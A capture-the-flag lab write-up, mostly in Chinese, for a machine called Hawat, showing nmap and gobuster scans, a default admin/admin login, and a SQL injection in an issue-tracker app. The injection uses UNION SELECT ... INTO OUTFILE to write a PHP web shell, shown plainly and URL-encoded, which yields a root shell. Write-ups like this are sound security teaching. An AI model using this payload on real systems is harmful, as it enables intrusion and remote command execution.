






# Hawat

### Nmap

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.167.147 -p-

[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-18 10:34 CST
Stats: 0:01:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 78.79% done; ETC: 10:36 (0:00:26 remaining)
Nmap scan report for 192.168.167.147
Host is up (0.074s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 78:2f:ea:84:4c:09:ae:0e:36:bf:b3:01:35:cf:47:22 (RSA)
|   256 d2:7d:eb:2d:a5:9a:2f:9e:93:9a:d5:2e:aa:dc:f4:a6 (ECDSA)
|_  256 b6:d4:96:f0:a4:04:e4:36:78:1e:9d:a5:10:93:d7:99 (ED25519)
111/tcp   closed rpcbind
139/tcp   closed netbios-ssn
443/tcp   closed https
445/tcp   closed microsoft-ds
17445/tcp open   unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Wed, 18 Dec 2024 02:36:32 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Issue Tracker</title>
|     <link href="/css/bootstrap.min.css" rel="stylesheet" />
|     </head>
|     <body>
|     <section>
|     <div class="container mt-4">
|     <span>
|     <div>
|     href="/login" class="btn btn-primary" style="float:right">Sign In</a> 
|     href="/register" class="btn btn-primary" style="float:right;margin-right:5px">Register</a>
|     </div>
|     </span>
|     <br><br>
|     <table class="table">
|     <thead>
|     <tr>
|     <th>ID</th>
|     <th>Message</th>
|     <th>P
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Wed, 18 Dec 2024 02:36:32 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 18 Dec 2024 02:36:32 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open   http         nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open   http         Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
```

### Use Gobuster to enumerater website's path

#### port 50080

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.167.147:50080/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.167.147:50080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 980]
/.htaccess            (Status: 403) [Size: 980]
/4                    (Status: 301) [Size: 239] [--> http://192.168.167.147:50080/4/]
/cgi-bin/             (Status: 403) [Size: 994]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.167.147:50080/cloud/]
/images               (Status: 301) [Size: 244] [--> http://192.168.167.147:50080/images/]
/~ftp                 (Status: 403) [Size: 980]
/~bin                 (Status: 403) [Size: 980]
/~http                (Status: 403) [Size: 980]
/~mail                (Status: 403) [Size: 980]
/~nobody              (Status: 403) [Size: 980]
/~root                (Status: 403) [Size: 980]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

### Check `:50080/cloud` and get the source code of website on port 17445

連上 `:50080/clode` 後，發現登入頁面。使用預設帳號密碼 admin/admin 成功登入。並且可以載下一包名為 issue tracker 的壓縮檔




issue tracker 剛好就是 port 17445 的 title，所以可以推測這是port 17445 的網站原始碼，從 code 中可以找到 SQL injection 的可能性

`issuetracker/src/main/java/com/issue/tracker/issues/`


圖中可以看到觸發 SQL injection 的路徑為 `/issus/checkByPriority`，所以我們使用 Burp 製作該請求。送出後發現會回應 400 錯誤碼，代表請求有誤，從上面程式碼中可以找到 `/issus/checkByPriority` 要帶上參數 `priority` ，所以重新測試一個新的請求，成功回覆 200!




### Try SQL injection and get RCE

接下來就是嘗試 SQL injection，注入的指令為：
```
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #
```
那後面要上傳的路徑我們必須要去找到，通常網站會在 `var/www` 底下，但這題不是，因為網站都是 PHP 建立的，可以嘗試透過 `url/phpinfo.php` 去查看網站的一些資訊。  

三台只有 port 30455 可以看到 phpinfo，這邊可以找到網站的在主機的路徑


所以我們注入的指令為：
```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/shell.php' -- -
```
並將他 url encode，輸入至 Burp
```
%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%20%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%73%72%76%2f%68%74%74%70%2f%73%68%65%6c%6c%2e%70%68%70%27%20%2d%2d%20%2d
```
成功獲得 root 權限的 shell

接下來只要 `cat` flag 的記事本即可
